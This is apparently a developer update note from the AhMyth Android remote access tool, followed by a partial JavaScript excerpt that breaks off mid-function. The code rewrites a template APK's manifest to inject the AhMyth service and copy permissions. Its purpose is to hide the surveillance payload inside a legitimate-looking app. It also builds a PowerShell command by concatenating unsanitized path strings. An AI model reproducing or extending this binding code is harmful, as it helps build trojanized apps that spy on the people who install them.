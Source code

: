 This one was a bit of a pain to manage, but it was done in the end, this future update will be used in the next release until something using `fs` can be constructed, in order to use less coding.

This new function also fixes a bug that was recently discovered when running AhMyth on Windows machines.
- AppCtrl.js
```js  
    $appCtrl.BindOnLauncher = (apkFolder) => {


    $appCtrl.Log('Finding Launcher Activity From AndroidManifest.xml...');
    $appCtrl.Log();
    fs.readFile(path.join(apkFolder, "AndroidManifest.xml"), 'utf8', (error, data) => {
        if (error) {
            $appCtrl.Log('Reading AndroidManifest.xml Failed!', CONSTANTS.logStatus.FAIL);
            $appCtrl.Log();
            return;
        }

        var launcherActivity = GetLauncherActivity(data, apkFolder);
        if (launcherActivity == -1) {
            $appCtrl.Log("Cannot Find the Launcher Activity in the Manifest!", CONSTANTS.logStatus.FAIL);
            $appCtrl.Log("Please use Another APK as a Template!.", CONSTANTS.logStatus.INFO);
            $appCtrl.Log();
            return;
        }

        var ahmythService = CONSTANTS.ahmythService;
        $appCtrl.Log('Modifying AndroidManifest.xml...');
        $appCtrl.Log();
        var permManifest = $appCtrl.copyPermissions(data);
        var newManifest = permManifest.substring(0, permManifest.indexOf("</application>")) + ahmythService + permManifest.substring(permManifest.indexOf("</application>"));
        fs.writeFile(path.join(apkFolder, "AndroidManifest.xml"), newManifest, 'utf8', (error) => {
            if (error) {
                $appCtrl.Log('Modifying AndroidManifest.xml Failed!', CONSTANTS.logStatus.FAIL);
                $appCtrl.Log();          
                return;
            }
            
            if (process.platform === 'win32') {
                $appCtrl.Log("Locating Launcher Activity...")
                $appCtrl.Log();
                exec('set-location ' + '"' + apkFolder + '"' + ';' + ' gci -path ' + '"' 
                + apkFolder + '"' + ' -recurse -filter ' + '"' + launcherActivity + '"' 
                + ' -file | resolve-path -relative', { 'shell':'powershell.exe' }, (error, stdout, stderr) => {
                var launcherPath = stdout.substring(stdout.indexOf(".\\") + 2).trim("\n");
                if (error !== null) {
                    $appCtrl.Log("Unable to Locate the Launcher Activity...", CONSTANTS.logStatus.FAIL);
                    $appCtrl.Log('Please use the "On Boot" Method to use This APK as a Temaplate!', CONSTANTS.logStatus.INFO);
                    $appCtrl.Log();
                    return;
                } else if (launcherPath) {
                    $appCtrl.Log("Launcher Activity Found: " + launcherPath, CONSTANTS.logStatus.SUCCESS);
                    $appCtrl.Log();
                }

                $appCtrl.Log("Fetching Launcher Activity...")
		$appCtrl.Log();
```